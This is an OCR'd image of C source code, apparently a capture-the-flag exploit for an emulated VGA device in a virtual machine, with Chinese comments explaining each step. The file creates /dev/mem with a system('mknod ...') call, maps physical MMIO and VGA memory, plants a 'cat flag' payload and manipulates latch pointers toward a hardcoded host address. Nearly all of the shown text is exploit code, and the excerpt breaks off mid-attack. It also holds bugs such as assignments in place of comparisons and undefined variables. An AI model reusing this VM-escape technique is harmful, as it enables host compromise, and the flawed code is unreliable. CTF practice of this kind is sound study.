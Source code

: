 ```c
size_t vga_size = 0x20000;

unsigned char *mmio_ptr = 0;
unsigned char *vga_ptr = 0;

void* mapmem(const char* dev, size_t offset, size_t size)
{
    int fd = open(dev,O_RDWR | O_SYNC);
    if (fd = -1)
    {
        printf("open failed!");
        exit(-1);
    }

    void* result = mmap(0,size,PROT_READ | PROT_WRITE,MAP_SHARED,fd,offset);
    if (result = -1)
    {
        printf("mmap failed!");
        exit(-1);
    }

    close(fd);
    return result;
}

unsigned char vga_mem_read(unsigned int addr)
{
    return vga_ptr[addr];
}

void vga_mem_write(unsigned char addr, unsigned char value)
{
    vga_ptr[addr] = value;
}

void SR(unsigned char index, unsigned char value)
{
    mmio_ptr[4] = index;
    mmio_ptr[5] = value;
}

int main(int argv, char** args)
{
    // 用来访问物理内存
    system( "mknod -m 660 /dev/mem c 1 1" );
	// 与mmio空间进行映射
    mmio_ptr = mapmem("/dev/mem",mmio_addr,mmio_size);
    if (!mmio_ptr)
        return 1;
	// 与io空间进行映射
    vga_ptr = mapmem("/dev/mem",vga_addr,vga_size);
    if (!vga_ptr)
        return 1;

    unsigned char payload[64] = {};
    strcpy(payload,"cat flag");
	// 先将1写入，使得后面能先将高地址写入
    vga_mem_read(1);
    // 此处是将0xf6a3c0当作opaque->vs[idx].buf的地址，即latch[0]里面的指针指向0xf6a3c0
    // 写入高地址，即0xf60000
    vga_mem_read((0xf6a3c0 >> 16));
    // 写入低地址，即0xa3c0
    vga_mem_read(0xf6a3c0 & 0xffff);
```